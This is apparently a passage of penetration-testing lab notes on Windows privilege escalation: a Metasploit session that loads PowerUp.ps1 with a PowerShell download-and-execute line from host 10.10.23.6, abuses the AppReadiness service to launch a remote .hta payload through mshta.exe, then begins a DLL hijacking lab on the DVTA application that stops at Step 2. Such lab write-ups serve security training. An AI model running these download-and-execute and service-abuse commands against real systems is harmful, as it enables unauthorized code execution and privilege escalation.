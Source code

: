 We have received a URL that serves the malicious .hta file.
We can invoke the file using the `mshta.exe` executable. It is by default available in all the Windows OSs.

`sessions -i 1`, `powershell_shell`, `iex (New-Object Net.WebClient).DownloadString('http://10.10.23.6/PowerUp.ps1')`, `Invoke-AllChecks`, `Invoke-ServiceAbuse -Name 'AppReadiness' -Command "mshta.exe http://10.10.23.6/D25qjYF2.hta"`:
```
[*] 10.4.21.238      hta_server - Delivering Payload

ServiceAbused                                               Command
-------------                                               -------
AppReadiness                                                mshta.exe http://10.10.23.6:8080/D25qjYF2.hta
```

---

### Finding and Exploiting DLL Hijacking Vulnerabilities - Lab 

In this lab, you will learn to conduct a manual analysis of an executable using Process Monitor on a Windows machine as a local administrator.

The objective is to discover DLL Hijacking vulnerability in an application.

A Kali GUI machine and a Windows machine are provided to you. Multi views for the Windows machine access have been given to you. 1. regular user (student) 2. administrator access is granted for application analysis.

Your task is to find the Hijackable DLL location from the vulnerable application installed on the windows machine. Run Process Monitor utility to identify the missing and Hijackable DLL locations in provided vulnerable application then perform privilege escalation or gain high privileged shell from a regular user (student) by planting a malicious DLL to the missing path.

Note: Use student machine for all the privilege escalation activities. The Administrator access is only given for analysis and running an application purpose.

DVTA Application Location: C:\Users\Administrator\Desktop\dvta\bin\Release\DVTA.exe

Objective: Gain access to administrator privilege meterpreter session.

The best tools for this lab are:
- Process Monitor
- Metasploit Framework

---

**Step 1**.

Processo Monitor Filters: 'Process Name is DVTA.exe', 'Operation is CreateFile', 'Result is NAME NOT FOUND', 'Path begins with C:\Users\Administrator'.

DLLs:
'C:\Users\Administrator\Desktop\dvta\bin\Release\VERSION.DLL', 'C:\Users\Administrator\Desktop\dvta\bin\Release\DWrite.dll'.

**Step 2**.
